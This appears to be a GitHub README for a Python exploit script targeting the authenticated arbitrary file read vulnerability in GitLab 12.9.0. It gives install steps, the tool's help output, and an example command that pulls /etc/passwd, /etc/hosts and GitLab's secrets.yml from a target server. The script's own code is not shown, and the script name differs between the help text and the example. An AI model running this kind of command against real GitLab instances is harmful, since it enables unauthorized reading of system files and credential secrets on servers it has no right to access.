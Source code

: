## The what?

A (wanted to be) better script than what can be found on exploit-db about the authenticated arbitrary read file on GitLab v12.9.0. 

## The how?

1. Meet the dependency (you probably already have the rest)

`pip3 install requests python-gitlab`

2. Get an API token using your credentials

[https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html)

3. Profit?

```
$ python3 gitlab-12.9.0-lfi.py -h
usage: gitlab-12.9.0-lfi.py [-h] -H HOST -u USER -p PASSWD -t TOKEN -f FILES

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  The https URI to gitlab webroot
  -u USER, --user USER  The user name
  -p PASSWD, --passwd PASSWD
                        The user password
  -t TOKEN, --token TOKEN
                        The access token
  -f FILES, --files FILES
                        The absolute paths to the files on the Gitlab local system
```

```
$ python3 gitlab-12.9.0-file-read.py -H https://gitlab.domain.com/ -u erk3 -p test1234 -t 9nsDFXshb1txxkkZAv24 -f /etc/passwd -f /etc/hosts -f /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```

